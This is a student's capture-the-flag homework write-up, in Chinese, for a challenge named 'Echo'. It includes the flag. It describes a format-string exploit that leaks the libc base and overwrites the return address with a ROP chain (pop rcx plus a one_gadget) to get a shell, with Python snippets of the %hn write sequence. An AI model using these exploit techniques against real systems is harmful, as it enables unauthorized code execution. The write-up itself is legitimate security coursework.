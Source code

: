 # CTF Hw5 writeup
> b05902127 劉俊緯, user ID: a127000555

## Echo
> FLAG{J0hn_cena_:_Y0u_c4n't_see_m3_!!!!!!!}

#### Checksec

![1543864654372](/home/arvin/.config/Typora/typora-user-images/1543864654372.png)

* 無法GOT hijacking (Full RELRO).

* 無法直接寫shell code (NX).

#### IDA 

* 得知架構，是用dprintf做事情。

![1543864839722](/home/arvin/.config/Typora/typora-user-images/1543864839722.png)

* 得知dprintf的 fd會先到2 (stderr)

![1543864849955](/home/arvin/.config/Typora/typora-user-images/1543864849955.png)

![1543864859427](/home/arvin/.config/Typora/typora-user-images/1543864859427.png)

#### Find Return Address

* 在gdb執行後打入exit，在exit外面breakpoint。
* finish後ni到ret，觀察ret的值。
* 觀察得知它是在dprintf時的%8$p。

#### Change stderr to stdout

* 這是一個線性的坑，就把.data區段的fd改成1就好了。
* 由上面IDA得知fd在0x601010

* 因為stderr通常會導到/dev/null，所以直接在%7\$p的值(%9\$p)寫成0x601010
* 在%9\$p的值(%9\$hhn)寫成1，這樣子0x601010就可以被overwrite成1，此時才可以leak information。

#### Outer information

* one_gadget 選用 0x4f2c5, 條件為 rcx = 0
* ROPgadget 選用  0x03eb0b `pop rcx; ret`。
* libc_offset = 0x21ab0, by `readelf  -a lab-1.so | grep start`

#### Leak information

* libc_base: 在%10\$p 為 <__libc_start_main+231>, 所以libc_base = %10\$p - 0x21ab0 - 231 。
* target ret address: 藉由%7\$p的值的位置(%9) -8 得 %8\$p的位置。
* rbp-chain: %5\$p 的位置會指到%7\$p

#### ROP chain

| %6p            | %7p | %8p      |
| ---------------- | ----- | ---------- |
| pop rci - gadget | 0     | one-gadget |

#### write pop rci gadget

```python
b = %8$p的位置。
fmt( '%{}c%5$hhn'.format( b ) )
fmt( '%{}c%7$hn'.format( get( pop_rcx, 1 ) ) )
fmt( '%{}c%5$hhn'.format( b+2 ) )
fmt( '%{}c%7$hn'.format( get( pop_rcx, 2 ) ) )
fmt( '%{}c%5$hhn'.format( b+4 ) )
fmt( '%{}c%7$hnZZ3'.format( get( pop_rcx, 3 ) ) )
```

* 控制5的尾數，寫完整個7。

#### write one_gadget

```python
b +16 = %8$p 的位置。
fmt( '%{}c%5$hhn'.format( b+16 ) )
fmt( '%{}c%7$hn'.format( get( one_gadget, 1 ) ) )
fmt( '%{}c%5$hhn'.format( b+16+2 ) )
fmt( '%{}c%7$hn'.format( get( one_gadget, 2 ) ) )
fmt( '%{}c%5$hhn'.format( b+16+4 ) )
fmt( '%{}c%7$hn'.format( get( one_gadget, 3 ) ) )
```

#### write zero

* 很單純那樣。

```python
b + 8 是 %7$p的位置
fmt( '%{}c%5$hhn'.format( b+8 ) )
fmt( '%7$n'.ljust(0x30) )
```

* 需要rjust是因為buffer並沒有清空，避免有其他詭異的事情發生，用空白來填補一下。

#### Finish

* 輸出exit，就可以get shell了。